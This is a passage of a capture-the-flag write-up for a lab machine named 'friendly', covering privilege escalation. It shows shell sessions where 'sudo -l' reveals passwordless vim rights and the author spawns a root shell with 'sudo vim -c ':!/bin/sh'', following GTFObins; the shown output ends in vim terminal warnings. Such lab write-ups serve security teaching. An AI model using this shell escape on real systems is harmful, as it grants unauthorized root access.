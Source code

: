 
## Privilege escalation
We got the user flag, so we should continue and gain more privileges...
```bash
www-data@friendly:/home/RiJaba1/YouTube$ cd ~
cd ~
www-data@friendly:/var/www$ ls
ls
html
www-data@friendly:/var/www$ sudo -l
sudo -l
Matching Defaults entries for www-data on friendly:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on friendly:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
www-data@friendly:/var/www$ 

```
We can use vim with sudo permissions. This is a known privilege escalation path and it is fully explained on [GTFObins](https://gtfobins.github.io/gtfobins/vim/#sudo). So let's follow the steps explained on the website. And capture the root flag.
```bash
www-data@friendly:/var/www/html$ sudo /usr/bin/vim -c ':!/bin/sh'
sudo /usr/bin/vim -c ':!/bin/sh'
Vim: Warning: Output is not to a terminal
Vim: Warning: Input is not from a terminal

E558: Terminal entry not found in terminfo
'unknown' not known. Available builtin terminals are:
    builtin_amiga
    builtin_ansi
    builtin_pcansi
    builtin_win32
    builtin_vt320
    builtin_vt52
    builtin_xterm
    builtin_iris-ansi
    builtin_debug
    builtin_dumb
defaulting to 'ansi'





















```